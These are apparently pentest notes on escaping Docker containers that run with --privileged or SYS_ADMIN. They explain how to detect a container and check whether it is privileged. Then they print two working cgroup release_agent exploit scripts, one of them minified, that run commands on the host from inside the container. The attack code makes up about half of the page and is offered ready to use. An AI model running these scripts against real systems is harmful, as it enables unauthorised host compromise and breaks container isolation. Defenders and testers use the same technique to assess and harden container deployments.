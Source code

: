 # Docker escape

dockers which running with '--privileged' or '--cap-add=SYS\_ADMIN ' parameters could be exploited to gain access to the underline system from the docker container.

### How can you tell if you’re in a container? <a id="8eb6"></a>

cgroups stands for “control groups.” It is a Linux feature that isolates resource usage and is what Docker uses to isolate containers. You can tell if you are in a container by checking the init process’ control group at `/proc/1/cgroup`. If you are not located inside a container, the control group should be `/`. On the other hand, if you are inside a container, you should see `/docker/CONTAINER_ID` instead.

### How can you tell if a container is privileged? <a id="e81f"></a>

Once you’ve determined that you are in a container, you need to determine if that container is privileged. The best way to do this is to run a command that requires the `--privileged` flag and see if it succeeds.

For example, you can try to add a dummy interface by using an `iproute2` command. This command requires the `NET_ADMIN` capability, which the container would have if it is privileged:

```text
$ ip link add dummy0 type dummy
```

If this command runs successfully, you can conclude that the container has the `NET_ADMIN` capability. `NET_ADMIN` is part of the privileged capabilities set, and containers that don’t have it are not privileged. You can clean up the `dummy0` link after this test by running this command:

```text
ip link delete dummy0
```

### Exploit \#1

```text
# In the container
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

### Exploit \#2

```text
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 &gt;$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c &gt;$d/release_agent;printf '#!/bin/sh\nps &gt;'&quot;$t/o&quot; &gt;/c;
chmod +x /c;sh -c &quot;echo 0 &gt;$d/w/cgroup.procs&quot;;sleep 1;cat /o
```

### source:

[https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1](https://medium.com/better-programming/escaping-docker-privileged-containers-a7ae7d17f5a1)

